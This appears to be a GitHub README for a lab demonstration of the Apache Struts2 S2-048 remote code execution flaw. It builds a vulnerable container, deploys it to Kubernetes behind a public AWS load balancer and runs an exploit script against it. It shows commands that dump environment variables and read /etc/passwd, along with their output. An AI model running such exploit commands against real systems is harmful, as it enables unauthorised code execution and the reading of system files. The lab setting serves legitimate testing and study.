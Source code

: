 # struts_poc

git clone https://github.com/hook-s3c/apache-struts2-PoC

cd apache-struts2-PoC/

docker build -t struts .

docker run -it --rm -d -p 8080:8080 struts:latest

docker tag struts:latest public.ecr.aws/v9f6i2g3/stuff:latest

#public login to us-west-2 not supported by aws

aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws

docker push public.ecr.aws/v9f6i2g3/stuff:latest

kubectl apply -f strust-deploy-and-service.yaml

ubuntu@brett-jumpbox:~/apache-struts2-PoC$ 
kubectl get service -n struts
NAME     TYPE           CLUSTER-IP       EXTERNAL-IP                                                              PORT(S)          AGE
struts   LoadBalancer   10.100.144.108   a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com   8080:30524/TCP   153m
ubuntu@brett-jumpbox:~/apache-struts2-PoC$

ubuntu@brett-jumpbox:~/apache-struts2-PoC$ python exploitS2-048-cmd.py a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com:8080 'env'

KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_SERVICE_PORT=443
STRUTS_PORT_8080_TCP_PORT=8080
STRUTS_SERVICE_PORT=8080
HOSTNAME=struts-7d8c95bbbd-9p9pp
JAVA_HOME=/usr/local/openjdk-8
GPG_KEYS=05AB33110949707C93A279E3D3EFE6B686867BA6 07E48665A34DCAFAE522E5E6266191C37C037D42 47309207D818FFD8DCD3F83F1931D684307A10A5 541FBE7D8F78B25E055DDEE13C370389288584E7 61B832AC2F1C5A90F0F9B00A1C506407564C17A3 713DA88BE50911535FE716F5208B0AB1D63011C7 79F7026C690BAA50B92CD8B66A3AD3F4F22C4FED 9BA44C2621385CB966EBA586F72C284D731FABEE A27677289986DB50844682F8ACB77FC2E86E29AC A9C5DF4D22E99998D9875A5110C01C5A2F6059E7 DCFD35E0BF8CA7344752DE8B6FB21E8933C60243 F3A04C595DB5B6A5F1ECA43E3B7BBB100D811BBE F7DA48BB64BCB84ECBA7EE6935CD23C10D498E23
STRUTS_PORT=tcp://10.100.144.108:8080
PWD=/usr/local/tomcat
TOMCAT_SHA512=612e830913bf1401bc9540e2273e465b0ee7ef63750a9969a80f1e9da9edb4888aa621fcc6fa5ba23cff94a40e91eb97e3f969b8064dabd49b2d0ea29e59b57e
TOMCAT_MAJOR=7
HOME=/root
LANG=C.UTF-8
KUBERNETES_PORT_443_TCP=tcp://10.100.0.1:443
TOMCAT_NATIVE_LIBDIR=/usr/local/tomcat/native-jni-lib
CATALINA_HOME=/usr/local/tomcat
STRUTS_PORT_8080_TCP_PROTO=tcp
SHLVL=0
KUBERNETES_PORT_443_TCP_PROTO=tcp
STRUTS_SERVICE_HOST=10.100.144.108
JDK_JAVA_OPTIONS= --add-opens=java.base/java.lang=ALL-UNNAMED --add-opens=java.base/java.io=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED --add-opens=java.base/java.util.concurrent=ALL-UNNAMED --add-opens=java.rmi/sun.rmi.transport=ALL-UNNAMED
KUBERNETES_PORT_443_TCP_ADDR=10.100.0.1
LD_LIBRARY_PATH=/usr/local/tomcat/native-jni-lib
KUBERNETES_SERVICE_HOST=10.100.0.1
KUBERNETES_PORT=tcp://10.100.0.1:443
KUBERNETES_PORT_443_TCP_PORT=443
PATH=/usr/local/tomcat/bin:/usr/local/openjdk-8/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
TOMCAT_VERSION=7.0.109
STRUTS_PORT_8080_TCP=tcp://10.100.144.108:8080
JAVA_VERSION=8u292
STRUTS_PORT_8080_TCP_ADDR=10.100.144.108
_=/usr/bin/env

ubuntu@brett-jumpbox:~/apache-struts2-PoC$

curl 127.0.0.1:8080/showcase.action -v

#python3 -m venv .

python exploitS2-048-cmd.py 127.0.0.1:8080 'cat /etc/passwd'
![apache_struts_poc](https://user-images.githubusercontent.com/4404271/152885401-97a37adf-6aa8-4b97-847a-c665889b9b60.gif)
